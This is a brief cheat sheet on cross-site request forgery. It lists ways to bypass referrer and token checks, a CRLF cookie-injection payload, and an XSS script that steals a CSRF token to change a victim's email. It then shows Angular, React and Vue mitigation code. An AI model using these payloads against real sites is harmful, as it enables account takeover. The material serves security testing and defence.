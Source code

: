 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## First:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```http
Referrer-Policy: unsafe-url
```
Invalid referrer validation, so:
```html
<meta name="referrer" content="no-referrer">
```
## Then:
1) csrf without csrf protection.
2) csrf validation depends on request method  - Change post to get.
3) csrf delete csrf parameter and value.
4) csrf - drop request and test the token in other session.
5) csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key.
```html
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
```
6) csrf + xss
```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script> 
```

### Angular Mitigation

```js
@NgModule({
  imports: [
    BrowserModule,
    HttpClientModule,
    HttpClientXsrfModule.withOptions({
      cookieName: 'My-XSRF-Cookie',
      headerName: 'My-XSRF-Header',
    }),
  ],
  bootstrap: [PhoneFormComponent],
  declarations: [PhoneFormComponent],
})
```

### React Mitigation

```js
const onSubmit = () => {
    const csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');

    fetch('https://www.sparkpay.com/api/phone', {
      method: 'PUT',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/json',
        'X-CSRF-TOKEN': csrfToken,
      },
      body: JSON.stringify({
        phone: phone,
      }),
    });
  };
```

### Vue Mitigation

```js
<script>
  module.exports = {
    data: {
      phone: '',
    },

    methods: {
      submitForm: function () {
        const csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');

        fetch('https://www.sparkpay.com/api/phone', {
          method: 'PUT',
          credentials: 'include',
          headers: {
            'Content-Type': 'application/json',
            'X-XSRF-TOKEN': csrfToken,
          },
          body: JSON.stringify({
            phone: this.phone,
          }),
        });
      }
    },
  };
</script>
```

### Avoid

What you should never do

```js
<script>
  fetch('https://www.sparkpay.com/api/phone', {
    method: 'PUT',
    credentials: 'include',
    headers: { 'Content-Type': 'application/json' },
    body: '{"phone": "07739364408"}',
  });
</script>
```

## Reference:
https://application.security/free-application-security-training/vue-cross-site-request-forgery
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
